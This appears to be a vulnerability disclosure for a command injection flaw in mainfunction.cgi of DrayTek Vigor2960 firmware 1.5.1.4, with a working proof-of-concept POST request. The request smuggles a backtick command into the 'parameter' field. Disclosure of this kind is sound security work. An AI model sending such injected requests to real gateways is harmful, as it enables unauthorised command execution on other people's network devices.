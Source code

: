 # DeryTek Vigor2960 V1.5.1.4 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: DrayTek (https://www.draytek.com/)
- **Products**: VPN Gateway
- **Firmware download address**: https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Description

### 1.Product Information:

DeryTek Vigor2960 V1.5.1.4 VPN Gateway
![img/1.jpg]

### 2. Vulnerability details

DeryTek Vigor2960 V1.5.1.4 was discovered to contain a command injection vulnerability in the mainfunction.cgi. This vulnerability allows attackers to execute arbitrary commands via the 'parameter' parameter.

![](img/21.jpg)
![](img/22.jpg)

We can see that the os will get `parameter` Not filtering the '`' . So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 57
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SESSION_ID_VIGOR=
Connection: close

action=commandTable&command=14&parameter=`touch test.txt`
```

![](img/3.jpg)
